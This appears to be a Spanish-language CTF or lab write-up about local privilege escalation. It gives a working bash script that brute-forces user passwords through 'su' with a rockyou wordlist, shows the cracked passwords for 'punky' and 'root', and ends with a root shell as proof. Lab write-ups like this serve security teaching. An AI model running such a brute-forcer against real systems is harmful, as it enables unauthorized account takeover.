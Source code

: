 ```bash
# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Imprimimos el banner al momento de realizar el ataque.
imprimir_banner

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```

Lo creamos todo en el directorio **tmp** tanto, el **rockyou** como el archivo sh
una ves pegado le damos permisos de ejecucion
```bash
chmod +x Linux-su-force.sh
```

Ahora ejecutamos para el usuario **root** tambien:
```bash
bash Linux-su-force.sh punky rockyout.xt
Contraseña encontrada para el usuario punky: secret

bash Linux-su-force.sh root rockyout.xt
Contraseña encontrada para el usuario root: hannah
```

```bash
# Comando para escalar al usuario: ( root )
su root # ( hannah )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@872874e6ce3b:/tmp# whoami
root
```